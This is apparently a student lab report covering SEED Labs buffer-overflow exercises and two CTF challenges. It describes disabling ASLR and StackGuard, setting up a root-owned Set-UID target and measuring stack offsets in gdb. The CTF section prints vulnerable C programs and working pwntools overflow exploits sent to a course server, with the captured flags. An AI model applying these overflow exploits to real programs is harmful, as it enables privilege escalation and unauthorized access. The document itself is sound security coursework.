


# Tasks from Week 5 and 6

## Task 1: Turning Off Countermeasures

---

- To start this week's exercises, first we cloned the seed labs github files so that we had the necessary files.
Then, the first step was to turn off the countermeasures witch we did by using the commands in the image.

Image 1

- The first one, is used to change the value of a kernel parameter named "kernel.randomize_va_space". This parameter controls whether the virtual adders space layout of a process should be randomized or not; when the parameter has the value 1 it enables the ASLR for a process, which is a security technique to help prevent attacks that rely on predicting or guessing the location of code or data in a process's address space. 
At this point we changed the value to 0, disabling the ASLR (Address Space Layout Randomization).

- Secondly we used the command that we are able to see in the 3rd line of the first image. The "ln" is used to create links between files and the "-s" option created s symbolic link that acts as a pointer to another file or directory. Using "-f" forces the creation of the link, even if it already exists.
In conclusion, this 2nd command sets the default shell to "zsf". 

Image 2
- In the above print, we can conclude that access to the shell was provided by both the 32-bit and 64-bit versions.

## Task 2: Understanding the Vulnerable Program

---

- After turning off countermeasures, the next step was to change the directory to code.
- Here we wanted to compile the vulnerable program in stack.c, but first we needed to turn off the StackGuard. 
To do that we used the command in image 3

Image 3

- In image 4 we started to compile using "make" and the results can be seen in image 5.

Image 4

Image 5

- Lastly, to make the program a root-owned Set-UID program we changed the ownership to root and after changed the permission to 4755 to enable the Set-IUD bit (represented in image 6). 
It is important to make these steps in this order.
- Changing the permission to 4755 means that the set-uid bit is being set for that file, which allows a user to execute the program with the permissions of the file owner, instead of their own permissions.

Image 6

## Task 3: Launching Attack on 32-bit Program (Level 1)

---

- In this part,we wanted to attempt the buffer overflow, so we followed the instructions given by the professor.
- To exploit the vulnerability the most important part is to know the distance between the buffer's starting position
and the place where the return address is stored.
- After creating an empty file "badfile", we started debugging using the commands in the image below. "gdb" is a command that allows the user to examine the execution of programs, with it we can view the stack trace, examine memory and registers and finally set breakpoints- which is what we did at function bof().
The breakpoint is created in that part of the program because it is where overflow is possible, so with the break point we can analyse the addresses at that point.

Image 7

- In image 8, we are able to see that we set a break point at function bof().

Image 8

- After setting the breakpoint, we have to run the program we have loaded into "gdb". 
Since we set a break point in the program, it is only running until it gets to the break point; in image
10 there is a message that gives us the information that the break point has been hit.

Image 9

Image 10

- Since we want to keep going, and not stop as the break point, we use "next" to keep running the program.

Image 11

Image 12

- At this point we fully ran the program. The first command used in image 13 is used as a frame pointer in x86-based sytems and by doint this command we are storing the base address of the current stack frame.
- "p &buffer" is to print the memory address of the variable "buffer".

Image 13

- As it was said in the beginning it is important to know the distance between the buffer’s starting position and the place where the return-address is store.
To help us with that used the command in image 14, that gives us the distance between 2 addresses; in this case it is 0x6c, which in decimal is 108 plus 4 bits, in total is 112-this was the value we used in the python file (exploit.py).
- The rest of the values in exploit.py, were decided by certain reasons:
- We started ret with 0xffffcaa8 and kept adding 4 to the value, unfortunately we added +300 nd still were given no results- the attack was not successful

Image 14

- Lastly we tried to execute the commands to actually launch the attack, however we were not able to do it since the result we always obtained was "input 517" and "segmentation fault"

# CTF 5

## Challenge 1

---

We inspected the main.c file and found the following code:

main.c

    #include <stdio.h>
    #include <stdlib.h>
    
    int main() {
        char meme_file[8] = "mem.txt\0";
        char buffer[20];
    
        printf("Try to unlock the flag.\n");
        printf("Show me what you got:");
        fflush(stdout);
        scanf("%28s", &buffer);
    
        printf("Echo %s\n", buffer);
    
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    
    
        fflush(stdout);
        
        return 0;
    }%

After looking around we noticed that the buffer only had space for 20 characters, but the scanf funtion had space for 28 character.
 
The flag_placeholder was in a file named flag.txt which had 8 characters.
 
So we decided to test the placing the name of the file in the end buffer and see what would happen.
 
So we modified the python exploit into the following code:

exploit.py

    #!/usr/bin/python3 
    from pwn import *
    
    DEBUG = False
    
    if DEBUG:
        r = process('./program')
    else:
        r = remote('ctf-sp.dcc.fc.up.pt', 4003)
    
    r.recvuntil(b":")
    r.sendline(b"aaaaaaaaaaaaaaaaaaaaflag.txt")
    r.interactive()

And we ran it:

And we got the flag:

#### flag{d81e3178f0dada9591120653d7e23a8f}

## Challenge 2

---

We did the same thing and inspected the main.c file:

main.c

    #include <stdio.h>
    #include <stdlib.h>
    
    int main() {
        char meme_file[8] = "mem.txt\0";
        char val[4] = "\xef\xbe\xad\xde";
        char buffer[20];
    
        printf("Try to unlock the flag.\n");
        printf("Show me what you got:");
        fflush(stdout);
        scanf("%32s", &buffer);
        if(*(int*)val == 0xfefc2223) {
            printf("I like what you got!\n");
            
            FILE *fd = fopen(meme_file,"r");
            
            while(1){
                if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                    printf("%s", buffer);
                } else {
                    break;
                }
            }
        } else {
            printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
        }
    
        fflush(stdout);
        
        return 0;
    }

We noticed that this version of the program had a new minor defense. The new version has another buffer in between the buffer we overflowed and the target. 
 
To bypass it we modified the python script with right sequence of the characters in this buffer.

exploit.py

    #!/usr/bin/python3
    from pwn import *
    
    DEBUG = False
    
    if DEBUG:
        r = process('./program')
    else:
        r = remote('ctf-sp.dcc.fc.up.pt', 4000)
    
    r.recvuntil(b":")
    r.sendline(b"aaaaaaaaaaaaaaaaaaaa\x23\x22\xfc\xfeflag.txt")
    r.interactive()

And we ran it:

And we got the flag:

#### flag{019fa6c6a725fea8f08f7a3f5aee0fe8}